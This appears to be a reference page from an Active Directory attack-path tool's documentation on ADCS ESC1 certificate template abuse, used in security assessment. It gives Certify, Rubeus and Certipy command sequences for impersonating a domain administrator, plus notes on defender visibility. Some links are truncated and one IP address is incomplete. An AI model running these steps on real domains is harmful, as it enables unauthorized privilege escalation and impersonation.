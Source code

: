 ---
title: ADCSESC1
description: "This edge indicates that the principal has permission to enroll on one or more certificate templates, allowing them to specify an alternate subject name and use the certificate for authentication. They also have enrollment permission for an enterprise CA with the necessary templates published."
---

<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>

This enterprise CA is trusted for NT authentication in the forest, along with the certificate chain up to the root CA certificate. This setup lets the principal enroll certificates for any AD forest user or computer, enabling authentication and impersonation of any AD forest user or computer without their credentials. 

## Abuse Info

### Windows

Step 1: Use Certify to request enrollment in the affected template, specifying the affected
certification authority and target principal to impersonate:

```bash
Certify.exe request /ca:rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA /template:"ESC1" /altname:ForestRootDA /sid:S-1-5-21-2697957641-2271029196-387917394-500
```

Step 2: Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```

Step 3: Optionally purge all Kerberos tickets from memory:

```bash
klist purge
```

Step 4: Use Rubeus to request a ticket granting ticket (TGT) from the domain, specifying the
target identity to impersonate and the PFX-formatted certificate created in Step 2:

```bash
Rubeus asktgt /user:forestrootda /domain:forestroot.com /certificate:cert.pfx /password:asdf /ptt
```

### Linux

 Step 1: Use Certipy to request enrollment in the affected template, specifying the target
enterprise CA and target principal to impersonate:

```bash
 certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC1 -upn administrator@corp.local
```

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate
created in Step 1 and the IP of a domain controller:

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.16.12
```
## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [Certipy](https://github.com/ly4k/Ce)
* [Rubeus](https://github.com/GhostPack/R)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1)
* https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-ser
